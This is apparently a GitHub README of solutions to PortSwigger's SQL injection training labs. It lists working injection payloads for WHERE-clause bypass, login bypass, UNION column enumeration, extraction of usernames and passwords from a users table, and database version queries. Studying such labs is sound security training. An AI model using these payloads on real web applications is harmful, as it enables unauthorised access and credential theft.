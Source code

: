 # SQL-injection
# Port Swigger SQL injection Labs Solutions <tag>

<h3>- Retrieving hidden data</h3>

[1.Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)


1. *Solutions*
   1. `'+OR+1=1--` -> Required
   >The server can also respond for the following
   1. `'OR+'1'='1--`
   1. `'OR+'1'='1'--`
   1. `'OR+'1'--`
   1. `'OR+true--`
   1. `'OR+'a'='a'--`
   1. `/OR+1=1--`
   1. `)'OR+1=1-- `
   1. `""OR+1=1--`
   1. `)*OR+1=1--`
   
<h3>- Subverting application logic</h3>

[2.Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

1. *Solutions*

   1. username : `administrator'--` password : `''`
   1. username :`a'OR+1=1--`        password : `''`
  
<h3>- Retrieving data from other database tables</h3>

[3.Lab: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

1. *Solutions*

  The first step of such an attack is to determine the number of columns that are being returned by the query.
  The server will responed for `'ORDER+BY+1--` `'ORDER+BY+2--` `'ORDER+BY+3--` that mean there are 3 columns in the database.
   
   1. `'+UNION+SELECT+NULL,NULL,NULL-- `
   1. `'UNION+SELECT+NULL,NULL,NULL--`
   1. `'union+select+null,null,null--`
   
[4.Lab: SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

1. *Solutions*

  The server responed for `'+UNION+SELECT+NULL,'xyz',NULL--` that is mean the second column containing text.
  Make the database retrieve the string: 'IyLLPT' #Noted in the top of the screen,it can be diffrent in your case
   
   1. `'+UNION+SELECT+NULL,'IyLLPT',NULL-- `
   
   
[5.Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

1. *Solutions*

  By applying `'+UNION+SELECT+NULL,NULL--` we can say the database has tow columns.
  By applying `'+UNION+SELECT+'abc','xyz'--` we can say the columns have string values.
  To retrieve the contents of the users table we can use the following payload
   `'+UNION+SELECT+username,+password+FROM+users--`
  where `username` is the name of first column ,`password` is the name of second column and `users` is the name of the table in the database.
  
   __Example__
   
   Database name :   USERS 
   
   username | password
------------ | -------------
administrator | bp6w7q9023goawolzuyh
Content in the first column | Content in the second column

 Now to solve the challenge go to Response in Burp Suite from raw search for `administrator` and its password `bp6w7q9023goawolzuyh`

[6.Lab: SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

1. *Solutions*

   By applying `'+UNION+SELECT+NULL,NULL--` we can say the database has tow columns.
   By applying `'+UNION+SELECT+NULL,'abc'--` we can say the second column has string values.
   Now to retrieve data from only one column we can use the following payload
   `'+UNION+SELECT+NULL,username||'~'||password+FROM+users--`
   
  `||'~'||` will join `username and password` like  `administrator~wet39rb7kc6kt99lq0o6`
   
 Now to solve the challenge go to Response in Burp Suite and get the username~password `administrator~wet39rb7kc6kt99lq0o6`


<h3>- Examining the database in SQL injection attacks</h3>

[7.Lab: SQL injection attack, querying the database type and version on Oracle]()
 
1. *Solutions*

On Oracle databases, every SELECT statement must specify a table to select FROM. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.

There is a built-in table on Oracle called DUAL which you can use for this purpose. For example: UNION SELECT 'abc' FROM DUAL 

   By applying `'+UNION+SELECT+NULL,NULL+FROM+DUAL--` we can say the database has tow columns.
   By applying `'+UNION+SELECT+'abc','xyz'+FROM+DUAL--` we can say the first and second columns have string values.
   to retrieve the version of the database, for Oracle we can use [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet):

   * SELECT banner FROM v$version
   * SELECT version FROM v$instance
   
   the payload will be like:
   
   `'+UNION+SELECT+banner,NULL+FROM+v$version--`
   
   `'+UNION+SELECT+version,NULL+FROM+v$instance--`
   
[8.Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft) 

 1. *Solutions*

   By applying `'+UNION+SELECT+NULL,NULL+FROM+DUAL#` we can say the database has tow columns.
   By applying `'+UNION+SELECT+'abc','xyz'+FROM+DUAL#` we can say the first and second columns have string values.
   Now to retrieve data from only one column we can use the following payload
   to retrieve the version of the database, for Microsoft DB we can use [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet):
   
   Microsoft	SELECT @@version
   
   the payload will be like:
   
   `'+UNION+SELECT+@@version,NULL+FROM+DUAL#`
   
   `'+UNION+SELECT+NULL,@@version+FROM+DUAL#`
   
   
   
   
